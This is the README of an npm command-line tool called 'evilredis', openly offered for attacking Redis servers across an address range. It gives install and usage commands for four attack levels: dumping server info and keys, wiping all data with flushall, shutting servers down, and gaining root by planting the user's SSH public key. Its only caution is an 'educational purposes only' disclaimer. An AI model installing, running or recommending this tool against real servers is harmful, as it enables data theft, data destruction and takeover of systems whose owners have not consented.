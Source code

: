 evilredis
=========
Small script for doing evil stuff to Redis servers
**(for educational purposes only!)**

## usage
```
npm install -g evilredis
```
Then:
```
== evilredis >:)

 Syntax:	evilredis [ target ] [ level = 0 ]
 Ex.		evilredis 192.168.0.0/24 1

 - Level 0: quick scan, dump server info & keys
 - Level 1: flushall
 - Level 2: flushall & shutdown
 - Level 3: root >:) (requires a pubkey)

   Specify your pubkey after evilness level
   Example: $ evilredis x.x.x.x 3 ~/.ssh/id_rsa.pub

 USE AT YOUR OWN RISK!
 ```

## license

[mit](https://github.com/matiasinsaurralde/evilredis/blob/master/LICENSE)
